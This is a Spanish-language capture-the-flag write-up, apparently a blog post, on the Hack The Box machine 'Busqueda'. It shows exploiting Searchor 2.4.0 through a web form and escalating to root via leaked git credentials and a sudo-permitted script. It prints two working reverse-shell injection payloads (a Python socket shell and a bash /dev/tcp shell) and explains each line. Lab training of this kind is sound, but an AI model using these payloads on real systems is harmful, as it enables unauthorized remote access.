 ```yaml
---
title: Busqueda
date: '2023-08-12'
lastmod: '2023-08-05'
tags: ['labs', 'HackTheBox']
draft: false
summary: 'Busqueda es una maquina sencilla en la cual debemos explotar la vulnerabilidad de Searchor 2.4.0 para una vez dentro ingeniarnosla y escalar privilegios'
images: ['/static/images/htb/busqueda/busqueda.png']
---
```


![Portada](/static/images/htb/busqueda/busqueda.png)

<TOCInline toc={props.toc} exclude="Introduccion" />

## RECONOCIMIENTO

### Ping

Primero que nada verificamos estar en la misma red que la maquina victima enviandole un paquete de datos a la ip 10.10.11.208 con el comando ping.

```js
  ping -c 4 10.10.11.208
```

- `-c` : Cantidad de paquetes de solicitud de eco ICMP (Internet Control Message Protocol) que se enviaran.

![Ping](/static/images/htb/busqueda/ping.png)

### Nmap

```js
  sudo nmap -sV -sS --min-rate 5000 10.10.11.208 -O
```

![Nmap](/static/images/htb/busqueda/nmap.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Version             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 8.9p1       |
| **_80/tcp_**     | http     | Apache httpd 2.4.52 |

## ENUMERACION

### Puerto 80

Nos dirigimos a la web page y nos topamos con Searcher.
![web](/static/images/htb/busqueda/web1.png)
Bajamos y nos encontramos con un formulario e informacion acerca de la aplicacion. Vemos que
esta utilisando [Flask](https://flask.palletsprojects.com/en/2.3.x/) y [Searchor 2.4.0](https://pypi.org/project/searchor/)
![web](/static/images/htb/busqueda/web2.png)

Realizando una busqueda en Google sobre Searchor version 2.4.0 nos encontramos con que es vulnerable a [ejecucion de codigo](https://security.snyk.io/package/pip/searchor/2.4.0).
Encontramos dos repositorios de PoC en los cuales apoyarnos para realizar la explotacion.
Vamos a hacer la demostracion de dos maneras distinas pero que nos van a conducir al mismo resultado.

### Manera 1

Abrimos Burpsuite y activamos Foxyproxy para capturar todas las solicitudes que realizemos.
Ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/web4.png)

Damos click en el boton Search.
![web](/static/images/htb/busqueda/web3.png)

En Burpsuite, capturamos la peticion y la mandamos al repeater.
![web](/static/images/htb/busqueda/web5.png)

Una vez alli, en el campo query, colocamos la siguiente linea de codigo:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('TU_IP',PUERTO));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Vamos a desglozar lo que hace:

Esta línea de código es un ejemplo de un shell reverso en Python, que se utiliza comúnmente en pruebas de penetración y actividades maliciosas para obtener acceso remoto a un sistema. Vamos a desglosar lo que hace:

`import socket,subprocess,os`: Importa los módulos necesarios. _socket_ para la comunicación de red, _subprocess_ para ejecutar comandos y _os_ para interactuar con el sistema operativo.

`s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)`: Crea un nuevo objeto de socket para la comunicación _TCP/IP_.

`s.connect(('TU_IP',PUERTO))`: Intenta conectar el socket al IP y puerto especificados. Nota: '_TU_IP_' y '_PUERTO_' son marcadores de posición y deben ser reemplazados por una dirección IP y un puerto válidos respectivamente.

`os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);`: Estas tres líneas redirigen la entrada estándar (0), la salida estándar (1) y la salida de error estándar (2) del proceso al socket. Esto significa que cualquier entrada o salida del proceso se enviará a través del socket, permitiendo la interacción remota.

`p=subprocess.call(['/bin/sh','-i'])`: Ejecuta una shell (_/bin/sh_) con una opción _-i_ que indica que se debe ejecutar en modo interactivo. Esto permite que el atacante ejecute comandos en el sistema comprometido.

Damos click derecho sobre la linea de codigo y la URLencodeamos. Hacemos los cambios pertinentes, colocando nuestra IP y el puerto que tengamos levantado en escucha. Enviamos y recibiremos una shell en donde teniamos nuestro netcat en escucha.
![web](/static/images/htb/busqueda/web6.png)

### Manera 2

De la manera 2 tambien ponemos un puerto de nuestra maquina en escucha.
![web](/static/images/htb/busqueda/altweb.png)
Pero en este caso, no interceptamos la solicitud, directamente
colocamos la reverse shell en el campo del formulario y la enviamos.

```python
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```

Esta línea de código es otra variante de un shell reverso, pero esta vez utilizando una combinación de Python y Bash para obtener acceso remoto a un sistema. Desglosemos lo que hace:

`__import__('os')`: Esta es una forma alternativa en Python para importar un módulo, en este caso, el módulo os.

`.system(...)`: Es una función del módulo os que se utiliza para ejecutar comandos del sistema operativo desde un script de Python.

`'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"'`: Este es el comando que se ejecuta. Desglosemos este comando Bash:

`bash -c`: Ejecuta el comando Bash especificado en la cadena que sigue.

`bash -i`: Inicia una nueva instancia de Bash en modo interactivo.

`& /dev/tcp/10.0.0.1/4444`: Redirige la salida estándar de la shell al socket TCP en la dirección IP 10.0.0.1 y el puerto 4444. Bash tiene una característica poco conocida que permite crear conexiones de red utilizando /dev/tcp/HOST/PORT.

`0>&1`: Redirige la entrada estándar (0) al mismo lugar que la salida estándar (1), lo que significa que la entrada y la salida de la shell se enviarán a través de la conexión TCP.

![web](/static/images/htb/busqueda/altweb2.png)

Y recibimos la shell.
![web](/static/images/htb/busqueda/altweb3.png)

## ESCALADA DE PRIVILEGIOS

Ya dentro, vemos que somos el usuario svc. Donde estamos hay un directorio .git.
![web](/static/images/htb/busqueda/web7.png)

En el archivo config vemos unas credenciales, volvemos al puerto 22 para probar.
![web](/static/images/htb/busqueda/web8.png)

Efectivamente, las credenciales son validas.
![web](/static/images/htb/busqueda/ssh.png)

Ejecutamos el comando `sudo -l`. El comando sudo -l se utiliza en sistemas basados en Unix y Linux para mostrar los privilegios de ejecución específicos que tiene un usuario en relación con los comandos que pueden ejecutar utilizando el comando sudo.

El comando sudo permite a los usuarios ejecutar comandos con los privilegios de superusuario (también conocido como "root"), lo que les brinda acceso a operaciones y configuraciones que normalmente requerirían permisos administrativos. Sin embargo, no todos los usuarios pueden ejecutar cualquier comando con sudo. El archivo de configuración sudoers determina qué comandos y acciones pueden ejecutar los usuarios mediante sudo.

Al usar sudo -l, un usuario puede verificar los comandos y las operaciones específicas que se les permite ejecutar con sudo. Esto es útil para comprender rápidamente el alcance de los privilegios que un usuario tiene sin necesidad de intentar ejecutar comandos y recibir mensajes de error si no se les permite.
![web](/static/images/htb/busqueda/ssh1.png)

Podemos ejecutar comandos como el usuario con altos privilegios. Vemos que podemos ejecutar el script full-checkup.
Lo que debemos de hacer es crear un archivo con el mismo nombre y mandar una shell con privilegios de root a nuestra maquina atacante
![web](/static/images/htb/busqueda/ssh2.png)

En nuestra maquina escribimos un [script de python](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) que nos dara una reverse shell.
![web](/static/images/htb/busqueda/ssh3.png)

Luego, levantamos un servidor con python para poder transferirlo a la maquina victima.
![web](/static/images/htb/busqueda/ssh4.png)

Antes de volver a la maquina victima, abrimos con nc el puerto que pusimos en el script de python para que
este en escucha. Le damos permisos de ejecucion y lo ejecutamos.
![web](/static/images/htb/busqueda/ssh5.png)

En nuestra maquina atacante recibimos una shell con maximos privilegios. Consiguiendo asi la flag root.txt .
![web](/static/images/htb/busqueda/ssh7.png)

`URLs de utilidad:`

- [Python eval code execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/)

- [Python privilege escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
